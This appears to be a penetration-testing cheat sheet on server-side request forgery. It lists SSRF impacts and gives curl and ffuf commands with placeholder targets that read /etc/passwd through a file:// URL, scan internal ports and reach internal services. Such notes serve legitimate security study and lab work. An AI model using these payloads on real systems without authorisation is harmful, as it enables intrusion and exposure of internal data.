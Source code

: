 
Exploiting SSRF vulnerabilities can lead to:

- Interacting with known internal systems
- Discovering internal services via port scans
- Disclosing local/sensitive data
- Including files in the target application
- 
- Leaking NetNTLM hashes using UNC Paths (Windows)
- Achieving remote code execution


We can usually find SSRF vulnerabilities in applications that fetch remote resources. When hunting for SSRF vulnerabilities, we should look for:

- Parts of HTTP requests, including URLs
- File imports such as HTML, PDFs, images, etc.
- Remote server connections to fetch data
- API specification imports
- Dashboards including ping and similar functionalities to check server statuses

# Regular SSRF

### Retrieving a remote file through the target application - HTTP Schema

```bash
curl -i -s "http://<TARGET IP>/load?q=http://<VPN/TUN Adapter IP>:9090/index.html"
```

### Retrieving a local file through the target application - File Schema

```bash
curl -i -s "http://<TARGET IP>/load?q=file:///etc/passwd" 
```


### Port Fuzzing

```bash
# generate port list
for port in {1..65535};do echo $port >> ports.txt;done

ffuf -w ./ports.txt:PORT -u "http://<TARGET IP>/load?q=http://127.0.0.1:PORT" -fs 30
```

### cURL - Interacting with the Target

```bash
curl -i -s "http://<TARGET IP>/load?q=http://127.0.0.1:5000"

curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=index.html"
```
